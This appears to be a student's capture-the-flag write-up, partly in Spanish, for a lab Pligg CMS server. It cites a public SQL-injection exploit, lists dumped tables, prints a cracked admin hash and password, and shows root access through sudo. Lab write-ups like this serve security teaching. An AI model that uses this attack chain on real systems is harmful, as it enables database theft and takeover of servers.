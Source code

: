 # Ejercicio 2

https://www.exploit-db.com/exploits/38577

`http://172.18.1.68/pligg/story.php?title=secret-war&reply=1&comment_id=1` es vulnerable a SQL injection

## DBS
```
[*] base_de_pepe
[*] information_schema
```

## Tables
```
+-----------------------------+
| pligg_additional_categories |
| pligg_categories            |
| pligg_comments              |
| pligg_config                |
| pligg_formulas              |
| pligg_friends               |
| pligg_group_member          |
| pligg_group_shared          |
| pligg_groups                |
| pligg_links                 |
| pligg_login_attempts        |
| pligg_messages              |
| pligg_misc_data             |
| pligg_modules               |
| pligg_old_urls              |
| pligg_redirects             |
| pligg_saved_links           |
| pligg_tag_cache             |
| pligg_tags                  |
| pligg_totals                |
| pligg_trackbacks            |
| pligg_users                 |
| pligg_votes                 |
| pligg_widgets               |
+-----------------------------+
```

# Usuario barack
```
email:hash:role
bobama@nsa.gov.us:1bf490bb34c2383ac91e67505741b9cdad3b9bee87e62ba98:admin

It's also his SSH password and his SUDO password
```

After a lot of research, hash has the following type:
```
SHA1(salt.hash)
4c2383ac91e67505741b9cdad3b9bee87e62ba98:1bf490bb3
```

Password is `obamaobamaobama`

Turns out it's also his SSH password, and his SUDO password

Also

```
sudo -l
Matching Defaults entries for obama on server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User obama may run the following commands on server:
    (ALL : ALL) ALL
```

So `sudo -i` and we are root

```
 _________________________________________
/ Congratulations, you win the Soft.      \
| Aplicativo's contest... The secret      |
| token is:                               |
| 7091996b0ccbb6c6145dca439f44cbe3c6c757e |
\ 476241d1cc64ec3dcf0f722fb               /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

# Path traversal and RCE 

Si no tuviera la misma password para SSH, deberiamos hacer algo con esto `https://github.com/jenaye/pligg` para conseguir una terminal con el usuario `www-data`, y desde ahi ver si podemos escalar